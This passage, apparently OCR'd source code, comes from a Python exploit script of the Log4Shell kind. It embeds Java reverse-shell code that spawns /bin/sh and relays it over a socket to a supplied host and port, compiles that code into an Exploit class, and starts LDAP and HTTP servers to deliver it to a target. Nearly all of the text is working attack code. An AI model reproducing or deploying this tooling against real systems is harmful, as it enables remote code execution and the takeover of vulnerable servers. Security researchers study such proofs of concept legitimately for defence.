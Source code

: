 ```python
        String cmd="/bin/sh";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
    }
}
""" % (userip, lport)

    # writing the exploit to Exploit.java file

    p = Path("Exploit.java")

    try:
        p.write_text(program)
        subprocess.run([os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/javac"), str(p)])
    except OSError as e:
        print(Fore.RED + f'[-] Something went wrong {e}')
        raise e
    else:
        print(Fore.GREEN + '[+] Exploit java class created success')


def payload(userip: str, webport: int, lport: int) -> None:
    generate_payload(userip, lport)

    print(Fore.GREEN + '[+] Setting up LDAP server\n')

    # create the LDAP server on new thread
    t1 = threading.Thread(target=ldap_server, args=(userip, webport))
    t1.start()

    # start the web server
    print(f"[+] Starting Webserver on port {webport} http://0.0.0.0:{webport}")
    httpd = HTTPServer(('0.0.0.0', webport), SimpleHTTPRequestHandler)
    httpd.serve_forever()


def check_java() -> bool:
    exit_code = subprocess.call([
        os.path.join(CUR_FOLDER, 'jdk1.8.0_20/bin/java'),
        '-version',
```